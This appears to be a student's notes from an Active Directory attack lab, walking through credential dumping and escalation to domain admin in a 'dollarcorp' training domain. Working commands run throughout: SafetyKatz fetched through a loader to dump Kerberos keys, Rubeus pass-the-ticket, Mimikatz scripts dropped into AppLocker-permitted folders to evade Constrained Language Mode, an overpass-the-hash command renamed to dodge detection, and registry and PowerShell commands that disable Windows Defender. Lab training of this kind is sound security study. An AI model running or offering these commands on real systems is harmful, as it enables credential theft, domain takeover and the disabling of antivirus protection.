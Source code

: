 NOTE: We are piping it to null because of output redirection. If we run it without $null it will stuck.
Finally we used this command to get the leys -
$null | winrs -r:dcorp-mgmt C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::ekeys exit
As, we have got the aes256 key and ntlm hash for svcadmin , now we can use Rubeus.exe to actually get the cmd.exe session on DCORP-DC machine which is Domain Admin.
Rubeus.exe asktgt /user:svcadmin /aes256:KEY /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
--> only aes keys should be used (/opsec) | Interact (/show) | pass the ticket (/ptt)
NOTE: It uses LogonType9, which means it will show that you (studentX) is still using the machine but infact you have the admin machine rights. [remember the Kerberos process, we have the ticket and we are actually asking the server to provide us the service based on our privileges on the TGT]
SO, use this after getting the cmd session -->
winrs -r dcorp-dc cmd
-----First method ending to get DOMAIN ADMIN Privileges-----
Derivative local admin access exploitation - (which is actually dcorp-mgmt)
Using --> Find-PSRemotingLocalAdminAccess -Verbose
We get --> dcorp-adminsrv
First we will copy Invoke-MimiEx.ps1 to dcorp-adminsrv machine then do Enter-PSSession again
Copy-Item C:\Users\ADTools\Invoke-MimiEx.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'
Now,
Enter-PSSession dcorp-adminsrv
Bypass AMSI, but we get an error -
Cannot invoke method. Method invocation is supported only on core types in this language mode.
So, Now -->
$ExecutionContext.SessionState.LanguageMode
Which will give --> ConstrainedLanguage
Which means - PowerShell is running in Constrained Language Mode
So, now we need to evade this.
We'll be using AppLocker (which is a trusted signed server through which we can execute commands which are not allowed in ConstrainedLanguage Mode)
Get-AppLockerPolicy -Effective
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
Bonus! --> How to look at Windows Registry key using command line -
reg query HKLM\Software\policies\Microsoft\Windows\SRPV2
 --> specific policy under - \Script\06dce67b-934c-454f-a263-2515c8796a5d
NOTE :- SRPV2 is used for AppLocker
First we will copy Invoke-MimiEx.ps1 to dcorp-adminsrv machine then do Enter-PSSession again
Copy-Item C:\Users\ADTools\Invoke-MimiEx.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'
NOTE : We used 'Program files' because we got (using the registry under the Scripts for AppLocker) that previuosly that anyone can exeute scripts or commands in that folder.
And now are navigation to the 'Program FIles' folder we can execute the Invoke-MimiEx and get the credentials of 3 users in which one of them is 'srvadmin' i.e., DCORP-DC machine host.
Now, here we will use Loader.exe (SafetyKatz) to get the access to the srvadmin machine (for the sake of the multiple methods)
C:\Users\StudnetX\ADTools\Loader.exe -Path C:\Users\StudnetX\ADTools\SafetyKatz.exe "sekurlsa::opassth /user:srvadmin /domain:dollarcorp.moneycorp.local /aes256:KEY /run:cmd.exe" "exit"
NOTE --> We renamed pth to opassth to evade some detection which occurs at the time of executing the command. 
-----------------------------------------------------------------------------------------------------
                                                                                 BONUS SECTION -->
Get-MpComputerStatus - to check if Windows defender is enabled or not.
To edit the registry key to disable DEFENDER (not really recommended..) -
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Microsoft Defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f
Disable WINDOWS DEFENDER -->
The intresting one is DisableRealtimeMonitoring, which you can also do by using the Set-MpPreference with PS -
Set-MpPreference -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableRealtimeMonitoring $true